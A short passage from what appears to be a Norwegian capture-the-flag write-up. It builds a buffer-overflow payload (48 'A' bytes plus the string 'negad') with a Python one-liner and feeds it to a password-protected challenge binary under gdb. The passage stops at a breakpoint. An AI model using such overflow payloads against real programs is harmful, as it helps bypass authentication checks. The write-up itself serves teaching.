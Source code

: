 ```bash
$ python -c 'print("A" * 48 + "\x6e\x65\x67\x61\x64")'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAnegad
```

La oss kjøre programmet igjen og bruke den nye payloaden vår som input:

```bash
gef➤  r
Starting program: /home/hag/ctfuiano/passordvelvet-1/passordvelvet
Du har 3 forsøk på å låse opp flagget! :)
Forsøk 0 av 3
Skriv passordet: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAnegad

Breakpoint 2, 0x0000555555555300 in main ()
```

![](04.png)
